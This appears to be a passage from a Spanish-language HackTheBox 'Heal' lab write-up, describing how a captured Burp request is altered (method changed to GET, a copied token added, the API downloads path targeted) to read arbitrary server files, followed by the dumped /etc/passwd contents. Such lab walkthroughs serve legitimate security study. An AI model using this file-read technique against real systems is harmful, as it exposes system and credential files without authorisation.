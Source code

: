 [![burp](/assets/img/writeups/hackthebox/heal_htb/peticionmod.png)](/assets/img/writeups/hackthebox/heal_htb/peticionmod.png)

1. **Cambiamos de OPTIONS a GET**
2. **Necesitamos autenticar la petición ya que de lo contrario no la realiza**
    - Para esto podemos copiar el token de las peticiones export por ejemplo y pegarlo en las cabeceras
3. **Ubicamos la ruta relativa de la carpeta downloads de la API para poder acceder al contenido deseado**

Ahora si podemos extraer contenido de ficheros en el servidor

```bash

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
```